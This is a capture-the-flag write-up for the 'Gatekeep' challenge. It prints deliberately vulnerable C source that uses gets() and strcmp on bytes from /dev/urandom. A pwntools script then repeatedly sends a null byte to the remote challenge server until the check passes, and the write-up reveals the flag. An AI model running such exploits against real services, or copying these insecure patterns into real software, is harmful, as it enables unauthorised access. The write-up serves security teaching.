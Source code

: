 ## Gatekeep

#### TL;DR 
Strcmp stops at null terminator. Binary uses strcmp to compare input with stuff generated by /dev/urandom. By spamming \x00, there is a 1/256 probability that the first byte from /dev/urandom is a \x00 and hence we are able to get the flag. 

#### Vulnerable source code
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

void print_flag() {
    char flag[256];

    FILE* flagfile = fopen("flag.txt", "r");
    
    if (flagfile == NULL) {
        puts("Cannot read flag.txt.");
    } else {
        fgets(flag, 256, flagfile);
        flag[strcspn(flag, "\n")] = '\0';
        puts(flag);
    }
}

int check(){
    char input[15];
    char pass[10];
    int access = 0;

    // If my password is random, I can gatekeep my flag! :)
    int data = open("/dev/urandom", O_RDONLY);
    if (data < 0)
    {
        printf("Can't access /dev/urandom.\n");
        exit(1);
    }
    else
    {
        ssize_t result = read(data, pass, sizeof pass);
        if (result < 0)
        {
            printf("Data not received from /dev/urandom\n");
            exit(1);
        }
    }
    close(data);
    
    printf("Password:\n");
    gets(input);

    if(strcmp(input, pass)) {
        printf("I swore that was the right password ...\n");
    }
    else {
        access = 1;
    }

    if(access) {
        printf("Guess I couldn't gaslight you!\n");
        print_flag();
    }
}

int main(){
    setbuf(stdout, NULL);
    printf("If I gaslight you enough, you won't be able to guess my password! :)\n");
    check();
    return 0;
}
```

As you can see, the binary uses strcmp to compare the stuff from /dev/urandom and our input. Our solution to this is to spam null bytes until /dev/urandom generates a null byte as the first character, which would let us pass the check. 

#### Solve script
```python
from pwn import *
import time

for i in range(1000):
    #proc = process("./gatekeep")
    proc = remote("lac.tf", 31121)
    proc.recvline()
    proc.recvline()
    time.sleep(0.1)
    proc.sendline(b"\x00")
    result = proc.recvline()
    print(result)
    if b"I swore that was the right password" not in result:
        print(result)
        proc.interactive()
        break
    proc.close
    time.sleep(0.2)
```

The flag is lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}.
